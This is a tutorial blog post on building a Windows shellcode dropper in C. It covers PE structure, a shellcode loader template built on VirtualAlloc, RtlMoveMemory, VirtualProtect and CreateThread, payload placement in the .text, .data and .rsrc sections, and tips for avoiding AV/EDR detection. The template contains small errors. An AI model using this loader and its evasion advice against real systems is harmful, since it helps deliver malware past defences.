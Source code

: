 ```yaml
---
title: Creating a Dropper in C
date: 2023-02-19 12:00:00 -500
categories: [blog]
tags: [code_execution]     #   TAG should always be lowercase

---
```


In this post we will take a very high level approach to creating a dropper for Windows. The structure of the dropper can take the form of 3 templates, each using a different structure of the portable executable to execute your shellcode. A dropper is just an application/binary/PE that delivers and executes your payload/Shellcode on the target system.

# What is a Portable Executable (PE)

a PE is a Way of structuring a file on disk so that the Windows loader recognizes the file as executable code and loads it into memory. If you want to have a detailed look at the structure of a PE, [here](https://github.com/corkami/pics/blob/master/binary/pe101/pe101.png) you go. The two main structures we will be looking at will be Headers and Sections.

Headers is just metadata about the PE. The below image shows the information contained in the headers for notepad.exe.

![headers](/assets/img/Headers.jpg)

Sections actually contain the executable code for a PE. The below image shows the sections contained in notepad.exe. These sections will become important later on when choosing where to store your payload.

![sections](/assets/img/PEBear.png)

# What is the difference between an EXE and a DLL

Two of the main PEs offensive operators can/will make use of is .exe(s) and .dll(s). The main difference between the two is that an EXE is a self-contained structure and completely independant in memory. The EXE will create a new process in windows and can interact with other processes, load different libraries and use all the different Win32/NT APIs. a DLL on the other hand is just a library that is called by an already in-memory process and usually needs a function inside the library that is called by the process.

# Sections for use in offensive tradecraft

The 3 sections that we can make use of for our payload/shellcode are the .data (Data), .text (Text) and .rsrc (Resources) sections. Each section that you choose for your payload will require a different layout in our C program. We will discuss the differences, but let's create the template for our first dropper program and then look at the distinguising features of our program and it's corresponding section. For any shellcode execution, there needs to be 4 essential functions within your program (There are different ways of doing this within the offensive community, but that is a post/posts for another day). 

Firstly, we want to reserve space in memory for our code and that can be accomplished by using the ```VirtualAlloc``` API. We allocate the memory space and also tell Windows what protections to apply (Read and Write) to the memory space ```flProtect``` (very important for detection considerations).

```c#
VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect)
```
Secondly, we want to copy our payload (assigned to a variable in our template) into the newly reserved memory space with the ```RtlMoveMemory``` API.

```c#
RtlMoveMemory(VOID *Destination, VOID *Source, SIZE_T Length);
```

Thirdly, we change the protection on the assigned memory region to make it executable (Read, Write, Execute) by using the ```VirtualProtect``` API. Changing the memory protection after assignment is slightly less suspicious for AV/EDR tools.

```c#
VirtualProtect(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
```

Lastly we make use of the ```CreateThread``` API to execute our code in a new thread within the process.

Our template for our dropper should now look like this:

```c#
unsigned char payload[] = {SHELLCODE};
unsigned int payload_length = SHELLCODE_LENGTH;
```

```c#
int main(void) {

// Reserve space in memory for our payload
me_reserve = VirtualAlloc(0, payload_length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// Move the payload to the newly reserved space.
RtlMoveMemory(me_reserve, payload, payload_length);
	
// Change the memory protection to add execute permissions
mem_protect = VirtualProtect(me_reserve, payload_length, PAGE_EXECUTE_READ, &oldprotect);

// run the payload
if ( mem_protect != 0 ) {
	exec = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) me_reserve, 0, 0, 0);
	WaitForSingleObject(th, -1);
}

return 0;
}

```

The differences in the code comes in w.r.t to which section you would like to use for your payload.

If you want to use the ```.text``` section, you need to assign your payload as a local variable. So within the main function of the application.
If you want to use the ```.data``` section, you need to assign your payload as a global variable. So outside of the main function of the application.

The use of the ```.rsrc``` section is slightly more complex:

<ol>
  <li>Store your payload in a resources file on disk - payload.rc</li>
  <li>You need an additional include in the application "include resources.h"</li>
  <li>The payload needs to be extracted from a file using the FindResource, LoadResource and LockResource APIs before continuing with the above template as normal</li>
  <li>You will need to use the Windows Resource Compiler to create an object file from your payload resources file</li>
</ol>

Hopefully this post has clarified a couple of nuances for you and we will continue with this thread in future posts to look at some techniques to avoid getting detected by AV/EDR tools.

